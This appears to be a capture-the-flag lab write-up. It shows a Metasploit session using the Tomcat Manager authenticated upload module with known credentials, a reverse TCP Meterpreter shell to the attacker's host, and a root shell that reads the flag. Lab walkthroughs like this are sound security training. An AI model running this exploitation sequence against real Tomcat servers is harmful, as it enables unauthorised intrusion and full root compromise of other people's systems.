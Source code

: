 Here, we use "Apache Tomcat Manager Authenticated Upload Code Execution" module from metasploit to exploit this linux machine
The module is selected based on the information that we gather from our enumeration phase

1. Search for a module.
![[toolsrus7.png]]

2. Steps to use and exploit the target with this exploit
```python
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.48.199
RHOSTS => 10.10.48.199
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.17.47.177:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying GfMz3tWTw...
[*] Executing GfMz3tWTw...
[*] Sending stage (58829 bytes) to 10.10.48.199
[*] Undeploying GfMz3tWTw ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.17.47.177:4444 -> 10.10.48.199:50474) at 2023-09-15 15:39:31 +0530
meterpreter > shell
Process 1 created.
Channel 1 created.
whoami
root
pwd
/
cd root
ls
flag.txt
snap
cat flag.txt
ff1fc4a81affcc7688cf89ae7dc6e0e1
```

